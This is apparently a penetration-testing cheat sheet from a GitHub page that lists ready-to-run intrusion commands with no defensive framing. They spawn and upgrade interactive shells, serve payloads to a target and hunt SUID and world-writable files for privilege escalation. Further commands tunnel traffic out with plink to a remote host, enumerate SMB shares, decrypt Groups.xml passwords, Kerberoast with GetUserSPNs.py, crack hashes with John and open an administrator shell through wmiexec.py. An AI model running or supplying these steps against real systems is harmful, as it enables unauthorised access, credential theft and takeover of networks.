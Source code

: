 **Spawning a full shell** \
`python -c 'import pty; pty.spawn("/bin/bash")'` \
`python3 -c 'import pty; pty.spawn("/bin/bash")'` \
`/bin/bash -i` \
`/bin/sh -i` \
`echo os.system('/bin/bash')` \
`script -qc /bin/bash /dev/null` \
`perl -e 'exec "/bin/sh";'` \
`exec "/bin/sh";` \
**From vi**  \
`:!bash` \
`:set shell=/bin/bash:shell`

**Simple HTTP server for delivering items to your target over HTTP** \
`python -m SimpleHTTPServer 80`

**Find all executables with SUID bit set** \
`find / -perm -u=s -type f 2>/dev/null` \
or \
`find /usr/bin -perm -4000`

**Find world-writable files** \
`find / -perm -2 -type f 2>/dev/null`

**plink** \
Connect to my IP, make a remote link on 12.34.56.78:4444 that forwards traffic from 127.0.0.1:9090 \
`plink.exe 12.34.56.78 -R 4444:127.0.0.1:9090`

**WebDAV client** \
`cadaver 10.10.10.1`

## SMBClient
**List shares** \
`smbclient -L //10.10.10.1` \
**Connect to stated share** \
`smbclient //10.10.10.1/Replication` \
**List everything on the share** \
`smbmap -R Replication -H 10.10.10.1`

Look for Groups.xml if needing logon credentials.

**Crack the hashed password found in Groups.xml** \
`gpp-decrypt bighashline`

**Grab the administrator hashed password** \
`GetUserSPNs.py -request 10.10.10.1/SVC_TGS -outputfile admin.txt`

**Crack the password with jumbojohn** \
`/root/jumbojohn/john --format:krb5tgs admin.txt --wordlist=/root/john_temp/rockyou.txt`

**Use wmiexec.py to make a shell** \
`wmiexec.py 10.10.10.1/administrator:crackedpass@10.10.10.1`

**Connect to SQL Server** \
`sqsh -S 10.10.10.1 -U username -P password`
